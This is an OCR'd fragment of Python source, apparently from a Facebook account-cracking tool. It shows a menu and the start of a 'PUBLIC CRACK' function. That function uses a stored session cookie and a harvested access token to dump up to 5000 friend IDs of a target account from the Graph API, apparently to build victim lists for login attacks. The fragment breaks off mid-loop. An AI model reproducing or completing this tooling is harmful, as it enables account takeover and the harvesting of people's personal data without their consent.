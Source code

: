 	print('%s[%s06%s] %sEXIT%s'%(P,P,P,M,N));time.sleep(1)

	jh = input(P+'['+P+'●'+P+']  MENU  ')

	if jh in ['1','01']:

		dump_publik()

	elif jh in ['2','02']:

		multidump()

	elif jh in ['3','03']:

		subprocess.check_output(["am", "start", "https://t.me/Q_7_D"])

	elif jh in ['4','04']:

		subprocess.check_output(["am", "start", "https://t.me/Q_7_D"])

	elif jh in ['6','06']:

		os.system("rm -f .cok.txt")

		print(h+'  ['+h+'●'+h+']  HOLD●●●')

		time.sleep(1)

		print('# EXIT SUCCESSFULLY')

		exit()

	else:

		print('# RETURN BACK TO MENU')

		exit()

	  

# PUBLIC CRACK

def dump_publik():

	try:

		cok= open('.cok.txt','r').read()

	except IOError:

		exit()

	linex()

	print(P+'['+P+'●'+P+'] IDS LIST')

	pil = input(P+'['+P+'●'+P+'] ﺔﻴﺤﻀﻟﺍ ﻱﺩ ﻱﺍ ﻖﺼﻟﺍ ● ')

	try:

		koh2 = requests.get('https://graph.facebook.com/v2.0/'+pil+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {"cookie":cok}).json()

		for pi in koh2['friends']['data']:

